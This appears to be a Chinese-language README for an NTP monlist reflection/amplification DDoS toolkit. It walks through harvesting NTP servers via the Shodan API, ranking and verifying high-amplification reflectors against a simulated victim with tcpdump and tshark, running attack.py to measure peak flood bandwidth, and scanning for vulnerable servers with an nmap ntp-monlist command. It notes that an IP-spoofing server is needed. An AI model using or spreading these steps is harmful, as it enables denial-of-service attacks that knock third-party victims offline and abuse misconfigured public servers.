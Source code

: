 > 需要有一台ISP没做源地址验证，支持IP Spoof的服务器。很难很难找，但是我有，但是为了防止滥用，就不公开了（doge)。如果有需要的话，那就自己慢慢交学费吧。
>
> 还需要shodan的API，这边提供了shodan寻找有monlist的技巧，我是用会员API KEY写的脚本，非会员的话就修改一下search.py中的search_and_save函数


```
# 从shodan中下载ntp 服务器清单
python search.py

# 查找ntp放大倍率高的服务器
python top.py
```



跑出一份top.txt后，但是实际上top.txt中的ntp服务器很多依然是不可用的，需要将top.txt同时上传到攻击机和模拟受害机实测一下

```
#模拟受害机
tcpdump -i eth0 udp -w 1.cap

#攻击机
python3 test.py

#模拟受害机，查看抓包的结果。（顺序）输出所有在1.cap中出现次数超过10次且同时存在于top.txt中的ip
tshark -r 1.cap -T fields -e ip.src -Y 'ntp' | sort | uniq -c | sort -n | awk '$1 > 10' | grep -F -f top.txt | awk '{ print $2 }' > final.txt

```



测试峰值带宽：

```
#模拟受害机
tcpdump -i eth0 udp -w 2.cap

#攻击机
python3 attack.py
```

2.cap用wireshark打开：统计—>I/O图表，Y轴改成Bytes，就可以测算峰值带宽了
![](2cap.png)


PS：测试阿里/腾讯服务器貌似不能成功，存在 NTP 的反射防护策略。抓包了一下攻击流量（腾讯云服务器运行`nmap -sU -pU:123 -Pn -n --script=ntp-monlist <存在monlist漏洞的ntp服务器ip>`)，可以看到返回的ip是内网的ip。

![](txy.png)

